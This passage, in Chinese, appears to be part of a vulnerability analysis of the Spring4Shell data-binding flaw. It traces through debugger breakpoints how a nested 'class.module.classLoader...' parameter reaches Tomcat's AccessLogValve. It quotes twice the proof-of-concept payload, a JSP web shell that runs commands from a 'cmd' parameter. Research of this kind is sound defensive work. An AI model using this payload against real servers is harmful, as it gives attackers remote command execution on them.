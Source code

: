 给这个doBind方法传恶意参数，即POC中的各个参数，对POC中的参数URL解码后可以拆分成如下5对参数。

 **`pattern`参数**

- 参数名：`class.module.classLoader.resources.context.parent.pipeline.first.pattern`
- 参数值：`%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i`

很明显，这个参数是SpringMVC多层嵌套参数绑定。我们可以推测出如下的调用链：

```Java
User.getClass()
    java.lang.Class.getModule()
        ......
            SomeClass.setPattern()
```

那实际运行过程中的调用链是怎样的呢？`SomeClass`是哪个类呢？

**断点位置：**

* 在实现SpringMVC参数绑定的主要方法`WebDataBinder.doBind(MutablePropertyValues)`上设置断点。

* `AbstractNestablePropertyAccessor`的`getPropertyAccessorForPropertyPath(String)`方法。该方法通过递归调用自身，实现对`class.module.classLoader.resources.context.parent.pipeline.first.pattern`的递归解析，设置整个调用链。

* 在`AbstractNestablePropertyAccessor nestedPa = getNestedPropertyAccessor(nestedProperty);`设置断点，该行主要实现每层嵌套参数的获取。查看每次递归解析过程中各个变量的值，以及如何获取每层嵌套参数。

* `BeanWrapperImpl`的`BeanPropertyHandler.getValue()`方法中。可以看到`class`嵌套参数最终通过反射调用`User`的父类`java.lang.Object.getClass()`，获得返回`java.lang.Class`实例。

需要调用很多轮，最终看出调用链：

```Java
User.getClass()
    java.lang.Class.getModule()
        java.lang.Module.getClassLoader()
            org.apache.catalina.loader.ParallelWebappClassLoader.getResources()
                org.apache.catalina.webresources.StandardRoot.getContext()
                    org.apache.catalina.core.StandardContext.getParent()
                        org.apache.catalina.core.StandardHost.getPipeline()
                            org.apache.catalina.core.StandardPipeline.getFirst()
                                org.apache.catalina.valves.AccessLogValve.setPattern()
```

可以看到，`pattern`参数最终对应`AccessLogValve.setPattern()`，即将`AccessLogValve`的`pattern`属性设置为如下符合access_log的文件内容的格式。

> 具体格式可以参考https://tomcat.apache.org/tomcat-9.0-doc/config/valve.html#Access_Logging

```
%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i
```

攻击报文中的如下内容的添加也是为了符合access_log格式。
